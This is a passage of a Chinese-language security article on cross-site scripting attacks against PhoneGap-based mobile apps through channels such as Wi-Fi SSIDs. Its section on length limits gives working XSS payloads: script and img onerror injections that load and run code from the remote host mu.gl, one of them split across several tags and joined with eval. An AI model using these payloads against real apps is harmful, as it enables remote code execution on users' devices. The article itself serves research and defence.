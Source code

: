 非PhoneGap应用

![enter image description here](http://drops.javaweb.org/uploads/images/2867bbdad7157b3c8b1bb3dc0edb4a408ae01509.jpg)

PhoneGap应用

等等……

0x04 限制
-------

* * *

在各场景中的长度限制

![enter image description here](http://drops.javaweb.org/uploads/images/3e855c90970cfce9814e725092d01130d8eb79ab.jpg)

可以看到Wi-Fi当中长度限制的最短。

可使用代码：

```
<script src=//mu.gl></script

```

img标签的话：

```
<img src onerror=d=document;b=d.createElement(’script’);d.body.appendChild(b);b.src=’http://mu.gl’>

```

如果有使用jQuery的话：

```
<img src onerror=$.getScript('http://mu.gl')>

```

如果要在SSID当中使用的话，可以使用经典的分割代码的方式：

```
<img src onerror=a="$.getScr">
<img src onerror=b="ipt(’ht">
<img src onerror=c="tp://mu.">
<img src onerror=d="gl’)">
<img src onerror=eval(a+b+c+d)> 

```

0x06 案例研究
---------

* * *

看看现实当中是否有app可以被攻击：

### 案例1 ： GWT Mobile PhoneGap Showcase。

